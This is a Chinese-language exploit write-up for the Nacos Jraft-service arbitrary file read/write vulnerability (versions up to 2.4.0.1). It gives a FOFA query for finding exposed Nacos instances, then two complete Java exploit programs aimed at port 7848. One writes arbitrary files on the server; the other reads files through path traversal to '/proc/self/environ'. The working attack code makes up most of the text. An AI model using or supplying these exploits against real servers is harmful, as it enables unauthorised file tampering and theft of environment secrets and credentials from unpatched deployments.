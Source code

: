 # Nacos任意文件读写漏洞

在Nacos<=2.4.0.1版本中集群模式启动下存在名为naming_persistent_service的Group，该Group所使用的Processor为com.alibaba.nacos.naming.consistency.persistent.impl.PersistentServiceProcessor类型Processor，在进行处理过程中会触发其父类`onApply`或`onRequest`方法,这两个方法会分别造成任意文件写入删除和任意文件读取

官方社区公告：https://nacos.io/blog/announcement-nacos-security-problem-file/

漏洞出现在Jraft服务（默认值7848）

## fofa

```java
title="Nacos"
```

## 任意文件写入

```java
public static void send(String addr, byte[] payload) throws Exception {  
    Configuration conf = new Configuration();  
    conf.parse(addr);  
    RouteTable.getInstance().updateConfiguration("nacos", conf);  
    CliClientServiceImpl cliClientService = new CliClientServiceImpl();  
    cliClientService.init(new CliOptions());  
    RouteTable.getInstance().refreshLeader(cliClientService, "nacos", 1000).isOk();  
    PeerId leader = PeerId.parsePeer(addr);  
    Field parserClasses = cliClientService.getRpcClient().getClass().getDeclaredField("parserClasses");  
    parserClasses.setAccessible(true);  
    ConcurrentHashMap map = (ConcurrentHashMap) parserClasses.get(cliClientService.getRpcClient());  
    map.put("com.alibaba.nacos.consistency.entity.WriteRequest", WriteRequest.getDefaultInstance());  
    MarshallerHelper.registerRespInstance(WriteRequest.class.getName(), WriteRequest.getDefaultInstance());  
    final WriteRequest writeRequest = WriteRequest.newBuilder().setGroup("naming_persistent_service").setData(ByteString.copyFrom(payload)).setOperation("Write").build();  
    Object o = cliClientService.getRpcClient().invokeSync(leader.getEndpoint(), writeRequest, 5000);  
    System.out.println(o);  
}  

public static void main(String[] args) throws Exception {  
        String address = "192.168.3.153:7848";  
        BatchWriteRequest request = new BatchWriteRequest();  
        request.append("1.txt".getBytes(), "aaaa\n".getBytes());//向/home/nacos/data/naming/data/1.txt写入aaaa  
        JacksonSerializer serializer = new JacksonSerializer();  
        send(address, serializer.serialize(request));   
    }
```

## 任意文件读取

```java
public static void send2(String addr, byte[] payload) throws Exception {  
    Configuration conf = new Configuration();  
    conf.parse(addr);  
    RouteTable.getInstance().updateConfiguration("nacos", conf);  
    CliClientServiceImpl cliClientService = new CliClientServiceImpl();  
    cliClientService.init(new CliOptions());  
    RouteTable.getInstance().refreshLeader(cliClientService, "nacos", 1000).isOk();  
    PeerId leader = PeerId.parsePeer(addr);  
    Field parserClasses = cliClientService.getRpcClient().getClass().getDeclaredField("parserClasses");  
    parserClasses.setAccessible(true);  
    ConcurrentHashMap map = (ConcurrentHashMap) parserClasses.get(cliClientService.getRpcClient());  
    map.put("com.alibaba.nacos.consistency.entity.ReadRequest", ReadRequest.getDefaultInstance());  
    MarshallerHelper.registerRespInstance(ReadRequest.class.getName(), ReadRequest.getDefaultInstance());  
    final ReadRequest readRequest = ReadRequest.newBuilder().setGroup("naming_persistent_service").setData(ByteString.copyFrom(payload)).build();  
    Object o = cliClientService.getRpcClient().invokeSync(leader.getEndpoint(), readRequest, 5000);  
    System.out.println(o);  
}  
public static void main(String[] args) throws Exception {  
        bypass();  
        String address = "192.168.3.153:7848";  

        JacksonSerializer serializer = new JacksonSerializer();  
        List byteArrayList = Arrays.asList("../../../../../../proc/self/environ".getBytes());  
        send2(address, serializer.serialize(byteArrayList));  

    }
```

![image-20240827224619150](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408281104726.png)



## 漏洞来源

- https://forum.butian.net/article/570
